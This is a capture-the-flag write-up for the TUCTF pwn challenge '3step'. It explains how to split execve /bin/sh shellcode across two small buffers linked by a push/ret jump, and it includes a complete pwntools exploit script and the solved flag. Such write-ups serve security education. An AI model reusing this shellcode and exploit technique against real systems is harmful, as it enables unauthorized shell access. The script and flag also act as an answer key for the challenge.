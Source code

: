# 3step

## PWN - Points: 500

> Gonna have to get crafty with this one.
>
> 
>
> nc chal.tuctf.com 30504
>
> [3step](3step)
>

Shellcode needs to be split up into two small buffers. Call the first buffer to execute the first part of the shellcode plus a jump to the second buffer, that contains the second part of the shellcode.

Exploit script:

```python
from pwn import *


shell1 = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68"
shell2 = "\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# p = process('3step')
p = remote('chal.tuctf.com', 30504)

p.recvline()
p.recvline()
first = int(p.recvline()[:-1], 16)
second = int(p.recvline()[:-1], 16)

jmp = asm('push {}; ret;'.format(hex(second)), arch='i386',os='linux')

p.sendlineafter(': ', shell1 + jmp)
p.sendlineafter(': ', shell2)
p.sendlineafter(': ', p32(first))
p.interactive()
```

flag: `TUCTF{4nd_4_0n3,_4nd_4_7w0,_4nd_5h3ll_f0r_y0u!}`